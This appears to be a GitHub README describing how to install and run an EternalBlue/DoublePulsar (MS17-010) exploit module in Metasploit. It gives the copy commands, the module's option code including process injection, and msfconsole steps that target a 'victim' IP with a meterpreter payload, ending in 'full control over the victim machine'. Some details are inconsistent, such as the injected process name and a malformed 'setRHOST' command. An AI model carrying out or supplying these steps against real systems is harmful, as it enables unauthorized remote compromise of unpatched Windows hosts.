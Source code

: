 # Eternalblue-Doublepulsar-Metasploit

We need to download and add the Scanner and exploit to Metasploit. Open your Terminal windows and Type following commands.

Move file smb_ms17_010.rb under the folder usr/share/metasploit-framework/modules/auxiliary/scanner/smb

~~~
sudo cp smb_ms17_010.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb
~~~

And then you should copy Eternal Blue-Doublepulsar.rb and debs to under usr/share/metasploit-framework/modules/exploits/windows/smb

~~~
sudo cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
sudo cp -r deps /usr/share/metasploit-framework/modules/exploits/windows/smb
~~~

Now Open the Eternal Blue-Doublepulsar.rb with any Editor and change the path directory for ETERNALBLUE and DOUBLEPULSAR to smb exploit directory usr/share/metasploit-framework/modules/exploits/windows/smb.
~~~
sudo nano /usr/share/metasploit-framework/modules/exploits/windows/smb/eternalblue_doublepulsar.rb
~~~
~~~
	register_options([
		OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
		OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
		OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
		OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
		OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
	], self.class)
~~~

Also Read  NSA Malware “EternalBlue” Successfully Exploit and Port into Microsoft Windows 10

Then we should specify the name of the process to be injected, we have specified here as 'explorer.exe'

Then you should launch msfconsole and use the auxiliary scan module smb_ms17_010.rb.
~~~
    dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.32-dev                          ]
+ -- --=[ 2205 exploits - 1168 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services
msf6 > 
~~~

use the auxiliary scan module smb_ms17_010.rb
~~~
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > show options
~~~

Now you should setup RHOSTS IP which is the Victims Ip address.
~~~
msf6 > set RHOSTS IP
msf6 > run
~~~

It will go and check whether the host is vulnerable or not and also display the victim machine details.

Now we can move to the exploit EternalBlue & Double Pulsar                                             
~~~
msf6 > use exploit/windows/smb/eternalblue_doublepulsar
msf6 > set payload windows.x64/meterpreter/bind_tcp
msf6 > show options
~~~

Then set a target architecture and then RHOST Victim IP address.
~~~
msf6 > setRHOST IP
msf6 > set targetarchitecture x64
msf6 > show options
~~~

And then type exploit and hit enter.

It’s done now we have got the meterpreter session and the vulnerability has been exploited.

Now the system has been exploited successfully and we have full control over the victim machine now.

| THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
